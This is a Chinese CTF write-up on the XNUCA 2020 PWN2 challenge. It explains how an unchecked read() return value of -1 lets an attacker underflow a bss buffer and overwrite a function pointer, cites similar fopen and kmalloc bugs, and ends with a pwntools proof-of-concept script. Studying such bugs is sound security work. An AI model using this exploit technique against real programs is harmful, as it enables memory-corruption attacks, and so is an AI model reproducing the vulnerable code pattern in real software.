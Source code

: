 #  XNUCA 2020  PWN2 WP



这道题的场景和qwb2020  unicoder的第一部分完全一样，甚至简单一点，因为少了个类型混淆。 Unicoder 原题是这么写的(PWN2的时候我把这部分去掉了)：

```
(int)v2 = get_num();
if(v2<=0 || (char)v2 >31);
```

然后接下来Unicoder 和PWN2这道题都是一样的代码：

```c
v1 = 0;
v2 = length;
do
{
    if(v1 >= v2)   break;
    v1 +=  read(0, &buf[v1], v2-v1); //buf in bss section
} while(buf[length-1]!='/n')
```

buf是bss段上的缓冲区。

问题在哪？

还记得网鼎杯2018有一个题，场景大概是：

```c
void func(){
    FILE *fp = fopen(secret_file ,'w+');
    memset(secret, 0, sizeof(secret));
    fread(secret, 1, length, fp);
    memcmp(secret, your_input);
    if( !memcmp(secret, your_input)){
        you_can_get_shell;
    }
}
```

这里的问题在于， 文件打开之后是没有close， 而一个进程的资源有限的 ，默认（可以用ulimit设置）只能打开1024个文件，于是重复调用 func 1022次之后，fopen函数返回-1, 那么fread 是一个无效的调用，且不会造成进程的crash。 于是secret就是空字符串， 于是这道题就解了。

还有就是经典的出题人自己写的内核， 然后出成内核题：

```c
(char *) a = (char *)kmalloc(1024);
then you can write anything to address a.
```

经典kmalloc实现有问题， 可以返回 0，而此时内核code段的地址是0。 （印象中2018年到2019年碰到了几次，包括2019 defcon quals）。 

归类这类问题， 对于敏感句柄（资源）的使用，必须检查申请资源的函数返回值是否合理！！！！！

```
//fopen和open检查其返回值， malloc和kmalloc检查其返回值 
//一个进程的内存有限
//无限的 (char *) a = (char *)malloc(1024); 会使得 a =-1;
```

那么对于read函数同样：

```
(int)a  = read(0, &bss_buf, length); 
```

bss_buf 是有长度限制的， 如果length >  bss_end - &bss_buf 会怎么样?    答案是a = -1。

于是

```c
v1 +=  read(0, &buf[v1], v2-v1); //buf in bss section
```

这句话，就会导致 v1 += -1， 于是导致了缓冲区前溢。于是令 v2 =  bss_end  - v1 + 4 , 可以往前推移4个字节（32位）的偏移，可以覆盖写函数指针。

当时qwb的时候读了100遍以上的题目审到了这个洞，但还是差了5分钟没能拿到这个题的一解， 膜Unicoder f61d的出题师傅。 但思路还是特别好的，让我知道，以后写代码记得：

```c
if( read(0,buf,1024) <=0)    printf("gg\n");
```



另外，还有一个有趣的现象，read这样的行为， 在动态链接和静态链接的行为是不一致的。静态链接不会出现上述问题。有兴趣的师傅可以去细究其中原因。

POC：

```python
#coding:utf-8
from pwn import *
import os 

context.arch="i386"
context.log_level='debug'

io=process("./pwn2")

io.recvuntil("again\n")
io.sendline('a'*4)

io.recvuntil("> ")
io.sendline('1')

io.recvuntil('path: ')
io.sendline('a')

io.recvuntil('length: ')
io.sendline(str(0xe80-4)) 

io.recvuntil("Digest: ")
io.send(b'will'+b'a'*(0xe80-8)) #忘了这个偏移是否有变，题目改了几次

io.interactive()
```



